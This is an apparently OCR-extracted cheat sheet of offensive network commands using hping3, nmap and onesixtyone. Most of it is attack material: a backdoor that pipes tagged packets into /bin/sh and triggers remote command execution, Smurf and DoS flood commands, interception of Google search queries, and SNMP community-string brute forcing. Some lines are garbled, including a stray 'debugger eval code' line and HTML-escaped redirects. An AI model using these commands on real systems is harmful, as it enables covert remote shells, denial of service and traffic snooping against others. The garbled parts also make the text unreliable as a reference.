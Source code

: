 # Check if UDP port is open
hping3 -2 10.0.0.1 -p 161 -c 1

# List for HTTP traffic on local interface
hping3 -9 HTTP -I eth0

# Intercept Google search queries on local interface
hping3 -9 "http://www.google.com/search?" --beep -I eth0

# Pipe received packets to create a backdoor
# Start Listner filtering for tag "secret"
hping3 -I eth1 -9 secret | /bin/sh
# Execute command on remote machine
hping3 -R 10.0.0.1 -e secret -E command_file -d 100 -c 1

TCP Send   : hping3 -V -1 -c 1 -p 80 -s 5050 10.0.0.1
UDP Send   : hping3 -V -2 -c 1 -p 80 -s 5051 10.0.0.1
SYN Send   : hping3 -V -S -c 1 -p 80 -s 5052 10.0.0.1
ACK Send   : hping3 -V -A -c 1 -p 80 -s 5053 10.0.0.1
FIN Send   : hping3 -V -F -c -1 -p 80 -s 5054 10.0.0.1
XMAS Send  : hping3 -V -M 0 -c 1 -p 80 -UPF -s 5055 10.0.0.1
NULL Send  : hping3 -V -Y -c 1 -p 80 -s 5056 10.0.0.1
Smurf Send : hping3 -V -1 --flood -a 10.0.0.1
DoS Send   : hping3 -V -1 --flood 10.0.0.1
debugger eval code:1:62
# NMAP
# Discovery of SNMP
sudo nmap -sU --open -p 161 10.0.0.1-254 -oG snmp-hosts.txt

# ONESIXTYONE
# Make a list of ip address
for ip in $(seq 1 254); do echo 10.0.0.$ip; done &gt; ip_list.txt
# Make a list of community names
echo $'private\npublic\nmanager' &gt;&gt; community.txt
# Perform the scan using your lists
onesixtyone -c community.txt -i ip_list.txt
